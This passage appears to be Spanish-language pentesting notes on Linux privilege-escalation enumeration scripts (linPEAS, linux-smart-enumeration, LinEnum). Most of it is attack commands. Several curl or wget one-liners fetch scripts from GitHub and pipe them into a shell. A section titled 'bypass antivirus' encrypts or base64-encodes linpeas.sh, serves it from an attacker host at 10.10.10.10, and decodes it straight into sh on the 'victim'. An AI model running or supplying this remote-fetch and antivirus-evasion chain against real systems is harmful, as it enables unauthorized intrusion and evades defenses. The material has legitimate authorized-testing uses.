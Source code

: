 ```bash
#From github
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh

```

bypass antivirus:

```bash
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim

```

### Linux smart enumeration

[Linux smart enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

```bash
wget "https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh" -O lse.sh

curl "https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh" -o lse.sh

./lse.sh -l0 # muestra informacion muy importante (opcion por defecto)

./lse.sh -l1 # muestra informacion interesante para escalar privilegios

./lse.sh -l2 # dumpea informacion importante del sistema
```

ejecucion directa sin desacrga:

```bash
bash <(wget -q -O - https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh) -l2 -i

bash <(curl -s https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh) -l1 -i
```


### LinEnum

[LinEnum](https://github.com/rebootuser/LinEnum)
